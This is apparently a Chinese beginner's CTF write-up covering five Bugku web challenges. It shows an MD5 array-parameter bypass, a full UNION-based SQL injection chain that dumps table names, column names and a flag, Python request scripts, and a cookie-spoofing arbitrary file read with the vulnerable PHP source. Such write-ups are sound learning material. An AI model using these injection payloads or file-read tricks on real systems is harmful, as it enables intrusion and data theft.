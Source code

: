 <!--yml
category: 未分类
date: 2022-04-26 14:48:29
-->

# Bugku CTF Web 解题报告二（16-20）_Vayn3的博客-CSDN博客

> 来源：[https://blog.csdn.net/qq_51090016/article/details/113098952](https://blog.csdn.net/qq_51090016/article/details/113098952)

## web 16 备份是个好习惯

打开链接长这样
![在这里插入图片描述](img/782429b3a19d61c769580cfcd88527f3.png)
让我这个菜鸡摸不着头脑。。。不过前面提示了备份，那就打开index.php.bak吧
![在这里插入图片描述](img/1cc78d82340badc068ddb56ee62fe5e8.png)
下载打开
![在这里插入图片描述](img/f9442dcfb5ee087abb3f3655a2e2c6ee.png)
实在看不懂，不过根据下面评论区大佬的提示，这是要用?kekeyy1[]=[1]&kekeyy2[]=[2]绕过md5的加密（真的不懂，还是要多学），所以在后面加上?kekeyy1[]=[1]&kekeyy2[]=[2]后flag就出来了

![??](img/c7db47905bd0d7495c0b18bbe8e2bdda.png)
这后面三个字是啥东西？？？

## Web 17 成绩查询

点开后长这样👇

![在这里插入图片描述](img/065091fa3e50ce8be4f4a7b79a01f031.png)
分别输入1 2 3查了下都是成绩单，输到4就没了。看着像是sql注入的题，因为我还是个菜鸡，刚了解sql注入，只好跟着大佬做。
按照大佬的做法，先进行post请求，一切正常

![在这里插入图片描述](img/f037431f9e305d011b439c1af310f921.png)
加单引号又不行了
![在这里插入图片描述](img/cfa6b080a520203d7fa905ad5692bc67.png)
加#又可以了
![在这里插入图片描述](img/8057eafbb543cebb089398375f8a93c2.png)
**这样就可以知道有sql注入漏洞了（为什么啊？我还是不太清楚，有没有大佬解答一下）**
然后尝试获取列数，因为123都有了，所以试试4或者更高
构造id=1’ order by 4#，正常
![在这里插入图片描述](img/e9090e4748e035da9b9a1542398f387d.png)
继续构造id=1’ order by 5#，没了
![在这里插入图片描述](img/a3434f68218778474a48f364d6202b6a.png)
**所以只有4列**

然后尝试联合查询（都是按照大佬的过程来的，还不知道为什么这么做）
**具体做法是id=0’ union select 1,2,3,4#**
![在这里插入图片描述](img/925d2b013193b2bf44533f87d68b8ffe.png)
然后又开始猜解数据库名， 数据库的用户，数据库的版本
**具体做法是id=0’ union select 12345,database(),user(),version()#**![在这里插入图片描述](img/c093291e07f6a6359707461ff635265a.png)

**根据数据库skctf_flag去查询表名**
具体做法：id=0’ union select 12345,(select group_concat(table_name) from information_schema.tables where table_schema=database()),user(),version()#
![在这里插入图片描述](img/94de72910eb393bcc65859b13ee27b2e.png)
这个select group_concat(table_name) from information_schema.tables where table_schema=database()，好像是一个用来查询表名的固定格式

上一步得到了表名fl4g和sc，flag应该藏在fl4g里面

根据fl4g表去查询字段名(列名)：**id=0’ union select 12345,(select group_concat(column_name) from information_schema.columns where table_name=‘fl4g’),user(),version()#** （有点迷糊）

再尝试获取字段(列)中的数据：**id=0’ union select 12345,(select group_concat(skctf_flag) from fl4g),user(),version()#**就获得flag了

[参考的大佬](https://blog.csdn.net/Mitchell_Donovan/article/details/112446855)，感谢大佬的wp。

## Web 18 秋名山车神

打开长这样![在这里插入图片描述](img/7c352b2e1a049f8491479394d18361d9.png)
实在让人摸不着头脑，只好看看下面评论区大佬的提示
![在这里插入图片描述](img/a3c0609ee09bd1a53980a7d95faa4d25.png)
意思就是要写个脚本是吧。。可我的python只学了一点，只好嫖一下大佬的。

```
import bs4,requests
from lxml import html
from bs4 import BeautifulSoup

url='http://114.67.246.176:14245/'
req2=requests.Session()
ht = req2.get(url)
soup=BeautifulSoup(ht.content,'lxml')

forluma=soup.find('div').text
forluma=forluma.replace("=?;","")
result=eval(forluma)
d={"value":result}
r = req2.post(url, data=d)
print(r.text) 
```

不知道为什么我的python运行不了，总是这样
![在这里插入图片描述](img/1f433c4971689f49e7b0e847ac193e49.png)
![在这里插入图片描述](img/bcb1686de18dd9dfd90bc6744ab4115f.png)
为什么不行啊啊啊。。。我要吐了，搞了半天也没找到原因，希望有大神能指点一下。
[代码出处](https://blog.csdn.net/m0_49762339/article/details/111650875)

所以这一题最后我还是没有得到flag。。（这该死的python）

## Web 19 速度要快

打开链接，看F12，发现响应头里有个flag？？
![在这里插入图片描述](img/dc4c4a35dd067e7ca45ebf6448bc54d5.png)
看上去像base，试试解码再说：
![在这里插入图片描述](img/47b33d587aa02699e281bb67b85cc871.png)
这就出来了？？提交看看。。。。果然是我想多了，这都19题了怎么可能那么简单 。
只好看看大佬们的wp，才知道flag是会变的，需要写一个脚本。

```
import requests
import base64
url="http://120.24.86.145:8002/web6/"
r=requests.session()
headers=r.get(url).headers

mid=base64.b64decode(headers['flag'])
mid=mid.decode()

flag = base64.b64decode(mid.split(':')[1])
data={'margin':flag}
print (r.post(url,data).text) 
```

写到这一题的时候，我才知道上一题那个脚本我为什么运行不了了，我的python没有下载requests库。。
多运行几次就flag出来了。

## Web 20 cookies欺骗

![在这里插入图片描述](img/ef1a9341f8d123bca99a830f9abbc147.png)
打开一看，是一串乱码。不过仔细看网址，里面好像有个base密码，解密得到：keys.txt

访问一下keys.txt ？不行，没反应。然后就真的不是我这种菜鸟能做出来的了，照着大佬的wp继续

尝试用修改参数filename的值为index.php（注意此处要用base64加密为aW5kZXgucGhw）
发现参数line没有给值，随意赋值如3，出现
![在这里插入图片描述](img/7c1fd26f98f3a6236fb5a1f8e7087396.png)
一个个试太麻烦，上脚本将index.php的源码读取出来（又要上脚本？？）

```
 import requests

def getIndex(url):
    res = requests.get(url)
    return res.text

for i in range(0,30):
    url = 'http://123.206.87.240:8002/web11\
/index.php?line='+str(i)+'&filename=aW5kZXgucGhw'

    print(getIndex(url)) 
```

源码

```
<?php

error_reporting(0);

$file=base64_decode(isset($_GET['filename'])?$_GET['filename']:"");

$line=isset($_GET['line'])?intval($_GET['line']):0;

if($file=='') header("location:index.php?line=&filename=a2V5cy50eHQ=");

$file_list = array(

'0' =>'keys.txt',

'1' =>'index.php',

);

if(isset($_COOKIE['margin']) && $_COOKIE['margin']=='margin'){

$file_list[2]='keys.php';

}

if(in_array($file, $file_list)){

$fa = file($file);

echo $fa[$line];

}

?> 
```

分析源代码，当cookie的margin=margin时，可以访问一个keys.php文件
注意把参数filename的值改为base64加密后的keys.php
![在这里插入图片描述](img/b492e43edafee00c45b41225db438c36.png)
这样就行了（做得好懵）
